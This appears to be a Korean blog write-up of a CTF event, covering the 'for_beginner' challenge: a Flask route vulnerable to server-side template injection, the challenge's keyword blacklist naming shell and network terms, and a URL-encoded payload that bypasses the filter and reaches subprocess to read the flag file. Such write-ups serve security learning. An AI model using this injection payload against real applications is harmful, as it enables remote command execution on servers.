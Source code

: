 ## 후기    
            
NodeJS vm2 sandbox 취약점을 활용하여 RCE하는 sandbox 문제를 풀지 못한채로 끝나버려서 아쉬움이 남는 대회였다... (야간 근무를 가야했기에 ...)    
           
## Writeup   
   
- <a href="#for_beginner">for_beginner</a>     
- <a href="#for_beginner-SQL">for_beginner-SQL</a>     
- <a href="#Magic-eye">Magic eye</a>      
- <a href="#web101">web101</a>      
- <a href="#Multiline-PHP-challenge">Multiline-PHP-challenge</a>     
- <a href="#sandbox">sandbox</a>     

<a id="for_beginner"></a>      
                   
## 1. for_beginner    

SSTI 취약점을 활용해 RCE 하는 문제였다.   
    
```python
@app.route('/')
def main():
    name = request.args.get("name", "World")
    return render_template_string(f'Hello {name}!!')
```    

Flask에서 랜더링 함수인 `render_template_string()`에서 `SSTI` 취약점이 발생한다.     
    
```python
blacklist = ['os','subprocesses','exec','vars','sys','"','\+',
             'open','rm','main','static','templates','ctf','rf',
             'spawnlp','execfile','dir','dev','tcp','sh','import',
             'built','__class__','for','request','\,','app','file',
             'url_for','\[','\]','config']

def Prevent_SSTI(input):
    for i in blacklist:
        res = re.search(i,input)
        if res:
            return True
    else:
        return False
```

키워드 위주로 필터링이 걸려있어 이를 우회해주면 된다. 

## Exploit Code
`http://3.34.190.217:1337/?name=%7B%7Brequest[%22__%22+%22class%22+%22__%22].mro()[3].__subclasses__()[494](%27cat%20flag.txt%27,shell=True,stdout=-1).communicate()%7D%7D`

## FLAG   
hspace{57a32c35915278d4de4ca21a8dc22b7f642a2a33e1508050c9498e1e48290e38}
        